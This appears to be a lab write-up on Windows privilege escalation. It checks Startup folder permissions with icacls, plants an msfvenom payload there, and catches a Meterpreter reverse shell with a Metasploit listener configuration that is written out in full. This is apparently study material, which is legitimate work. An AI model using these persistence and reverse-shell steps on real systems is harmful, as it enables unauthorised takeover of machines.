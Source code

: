 
### Startup Applications

As wonderful as Powerup.ps1 is, there are some things it can't check.

Checking start up applications requires a different tool.  Start up applications run when the computer starts up.  If we can compromise one of those programs, then we can compromise the device.

`icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`

![[2024-10-23 20_51_12-Window.png]]

`icacls.exe` is a built in windows tool used for checking permissions on different things.  The circled Users:(F), specifically the F part, means we have full control (access).

https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls

This is the full documentation for that tool.

Used msfvenom to craft a payload as an exe file.  Then used python to serve that folder up in a webserver fashion.  Downloaded the payload, dropped it into the startup folder.

Used msfconsole to fire up a listener.

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.6.x.x
lhost => 10.6.x.x
```

Change the x's to your local ip.

Once the device is logged into by an administrator, you have your shell :)

![[2024-10-23 21_18_19-Window.png]]

